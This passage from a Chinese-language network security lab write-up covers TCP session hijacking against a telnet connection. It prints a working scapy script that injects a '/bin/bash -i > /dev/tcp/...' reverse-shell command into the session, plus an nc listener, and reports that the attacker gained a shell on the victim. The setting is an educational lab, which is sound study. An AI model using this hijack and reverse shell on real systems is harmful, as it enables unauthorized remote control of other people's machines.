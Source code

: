 在客户机上使用刚才连接的telnet，看看有什么情况，并请说明原因。

在服务器上发现文件删除成功，并且客户端的光标被锁死，无法输入命令。原因是客户端的终端失去了正确的ack与seq，既无法发出信息，也无法接收信息，也无法退出。



### Task4. 通过TCP的会话劫持攻击创建“Reverse Shell”

编写python程序

```python
#!/usr/bin/env python3

from scapy.all import *

def spoof_pkt(pkt):
	ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
	tcp = TCP(sport=pkt[TCP].dport, dport=23, flags="A", seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
	data = "/bin/bash -i > /dev/tcp/10.9.0.1/1234 0<&1 2>&1\n\0"
	pkt = ip/tcp/data
	send(pkt, verbose=0)
    
f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-51a3ed64a0eb', filter=f, prn=spoof_pkt)
```

在attacker上开启监听

```
nc -lnv 1234
```

user1上telnet到victim

再开一个attacher的bash，运行hijackingreverse.py

在user1的telnet连接中打一个空格

成功监听，拿到shell

![image-20241121110204939](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241121110204939.png)

可以在攻击机上远程在victim上执行命令

![image-20241121110501706](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241121110501706.png)

